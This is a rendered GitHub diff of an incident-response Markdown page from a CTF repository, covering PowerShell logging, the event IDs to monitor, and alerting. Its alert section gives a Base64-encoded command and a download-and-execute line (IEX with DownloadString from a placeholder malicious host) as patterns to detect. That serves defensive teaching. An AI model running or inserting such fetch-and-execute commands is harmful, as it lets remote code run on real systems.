

Before and after one commit to kenvb/CTF, a Markdown page: powershell/IR.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/powershell/IR.md
+++ b/powershell/IR.md
@@ -84,12 +84,66 @@ To check the process behind a connection:
 Get-Process -Id (Get-NetTCPConnection).OwningProcess | Select-Object ProcessName, Id, Path | Format-Table -AutoSize
 ```
 
-### Red Flags:
-- Connections to unknown external IPs.
-- Processes making many outbound connections.
+# PowerShell Security Recommendations
 
+## 1. Enable and Monitor PowerShell Logging
 
-## Next Steps:
-- Investigate suspicious tasks, services, or network connections.
-- Check file hashes via `Get-FileHash` and compare with VirusTotal.
-- Disable or remove confirmed malicious entries.
+### Enable Script Block Logging
+Records full command execution details to detect suspicious behavior.
+- **Group Policy:**
+  - `Computer Configuration → Administrative Templates → Windows Components → Windows PowerShell → Turn on PowerShell Script Block Logging`
+  - Set to **Enabled** and enable "Log script content".
+- **PowerShell Command:**
+  ```powershell
+  Set-ItemProperty -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Name EnableScriptBlockLogging -Value 1
+  ```
+
+### Enable PowerShell Module Logging
+Tracks loaded PowerShell modules to detect tools like PowerSploit or Empire.
+- **Group Policy:**
+  - `Computer Configuration → Administrative Templates → Windows Components → Windows PowerShell → Turn on Module Logging`
+  - Add high-risk modules:
+    ```
+    Microsoft.PowerShell.Management
+    Microsoft.PowerShell.Security
+    Microsoft.PowerShell.Utility
+    Microsoft.WSMan.Management
+    NetSecurity
+    NetTCPIP
+    SmbShare
+    SmbWitness
+    CimCmdlets
+    ```
+
+### Enable Transcription Logging
+Captures all PowerShell session input and output.
+- **Group Policy:**
+  - `Computer Configuration → Administrative Templates → Windows Components → Windows PowerShell → Turn on PowerShell Transcription`
+  - Save logs to a central location (SIEM or secure file share).
+- **PowerShell Command:**
+  ```powershell
+  Set-ItemProperty -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription -Name EnableTranscripting -Value 1
+  ```
+
+## 2. Monitor PowerShell Process Activity
+
+### Key Windows Event Logs to Monitor
+- **Event ID 4104:** PowerShell script block logging
+- **Event ID 4688:** New process creation (monitor `powershell.exe`, `pwsh.exe`)
+- **Event ID 7036:** Windows Defender service stopping
+- **Event ID 5858:** PowerShell internal errors (possible obfuscated scripts)
+
+### Set Up Alerts for Suspicious Commands
+#### Base64-Encoded Commands
+```powershell
+powershell.exe -e <Base64 string>
+```
+- Common in obfuscated attacks.
+- Decode Base64 to inspect the actual command.
+
+#### Download and Execute Scripts
+```powershell
+IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/script.ps1')
+```
+- Monitor `Invoke-Expression`, `New-Object Net.WebClient`, `DownloadString`.
+
````
Also changed, not shown: other parts of powershell/IR.md (+56 -0 lines).
